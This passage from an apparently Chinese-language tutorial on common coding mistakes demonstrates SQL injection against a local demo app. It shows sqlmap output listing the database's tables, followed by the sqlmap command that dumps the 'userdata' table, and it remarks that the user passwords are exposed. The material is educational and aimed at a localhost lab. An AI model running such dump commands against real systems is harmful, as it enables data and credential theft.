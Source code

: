 可以看到其中有一个敏感表 userdata：

```
Database: common_mistakes



[7 tables]



+--------------------+



| user               |



| common_store       |



| hibernate_sequence |



| m                  |



| news               |



| r                  |



| userdata           |



+--------------------+
```

第三步，查询 userdata 的数据：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test -D "common_mistakes" -T "userdata" --dump
```

你看，用户密码信息一览无遗。当然，你也可以继续查看其他表的数据：
